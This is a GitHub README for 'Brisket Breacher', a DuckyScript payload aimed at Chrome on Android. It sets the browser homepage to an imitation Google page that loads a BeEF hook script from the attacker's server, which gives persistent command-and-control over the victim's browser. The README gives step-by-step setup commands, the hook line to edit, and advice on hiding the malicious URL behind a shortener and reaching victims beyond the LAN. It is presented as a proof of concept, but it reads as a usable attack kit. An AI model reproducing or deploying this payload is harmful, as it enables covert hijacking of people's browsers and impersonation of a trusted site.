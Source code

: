 <div align="center">
  
# Brisket Breacher

![bb](https://github.com/user-attachments/assets/019730d7-db7d-4a9a-a892-06df2b390adc)

</div>

**Title:** Brisket_Breacher

**Author:** OSINTI4L

**Target Os:** Android mobile device/Google Chrome (tested on Samsung S24 FE | One UI V7.0 | Android V15).

## What is Brisket Breacher?

Brisket Breacher is DuckyScript payload that targets the Android mobile device Google Chrome browser utilizing the Browser Exploitation Framework ([BeEF](https://www.kali.org/tools/beef-xss/)). The payload changes the homepage of the Google Chrome browser to an imitation `Google.com` landing page. When a victim device opens the Google Chrome browser to the homepage, the imitation Google.com page points to a BeEF command and control server via a Javascript BeEF hook, where the attacker has direct control over the browser to allow for further attacks. For the attack to work, the attacker must setup a BeEF C2 server, configure the homepage, and edit the URL to the C2 in the payload.txt (all explained below).

For the purposes of this PoC the BeEF C2 will be hosted locally over LAN, where the attacker machine and target device must be on the same LAN for the attack to be succesful. The same attack can be used outside of LAN if setup via methods such as port forwarding or hosting services.

**Persistence**

Due to the payload changing the homepage in the settings of the Google Chrome browser, this creates persistence. *Even* if the phone is restarted, when the browser homepage is loaded, it will *always* attempt to connect to the BeEF C2.

## Dependencies
## Setting up the BeEF command and control server using a [Kali Linux](https://www.kali.org) box
1. Once you have spun-up an instance of Kali (our attacker machine), you must first find the IP address of the machine. This can be found via `ifconfig`, store the IP address as it will be needed in multiple places momentarily.
  
2. Install BeEF:
    - `sudo apt install beef-xss -y`
     
3. Download the homepage.html file in the Brisket_Breacher directory (described next). This will be the homepage that our malicious URL will point to and deliver the BeEF C2 hook.
    - Open the homepage.html and edit the BeEF C2 hook (line 141 `<script src="http://X.X.X.X:3000/hook.js"></script>`) with the IP address gathered from `ifconfig` of the attacker machine and then save the updated file. E.g., `<script src="http://192.168.8.100:3000/hook.js"></script>`.
    - Become root: `sudo su`.
    - With the homepage.html file in your current working directory, move it to the following directory: `mv homepage.html /usr/share/beef-xss/extensions/demos/html`.

4. Start BeEF:
    - `sudo beef-xss`.
   -----
## The homepage
The homepage was designed to imitate a typical Google Search landing page. Multiple features were added in an attempt to help obfuscate the fact that it is a *malicious* homepage. The homepage also delivers the BeEF C2 hook.
  - Features:
    - BeEF C2 hook delivery.
    - Dark and Light mode variations that will render according to device settings.
    - A useable search bar and buttons that will forward the user input as a Google search request.

![googlesearch](https://github.com/user-attachments/assets/1a428553-52d5-417b-aabb-5fc053c33ea8)

## payload.txt
The payload.txt file is the delivery system for configuration of the Google Chrome browser.

**The URL pointing to the BeEF C2 must be defined in line 7 of the payload.txt.** The URL to the BeEF C2 is the following: `http://x.x.x.x:3000/demos/homepage.html` (replacing the IP parameter with the IP address of the attacker machine). E.g., `http://192.168.8.100:3000/demos/homepage.html`. This will point to the homepage.html file that has been previously configured during the BeEF C2 setup stage.

An additional layer of obfuscation can be had by utilizing a URL shortening service (e.g., [Tinyurl](https://tinyurl.com/)). After placing the `http://x.x.x.x:3000/demos/homepage.html` URL into the shortener, you will then use the shortened URL as the constant defined in line 7.

The payload workflow is as follows:
  - Chrome browser is opened.
  - A new tab is opened to ensure the proper browser environment is present for the script to run without issues.
  - The browser is then navigated to the settings menu where the malicious BeEF C2 URL is placed.
  - All tabs are then closed.
  - All applications are then closed and the phone returns to the home screen. This is necessary for obfuscation purposes and to allow the browser to automatically navigate to the malicious homepage when opened.

![demo](https://github.com/user-attachments/assets/89d853d8-ec2c-4ca9-9cee-46ca4f33aab6)

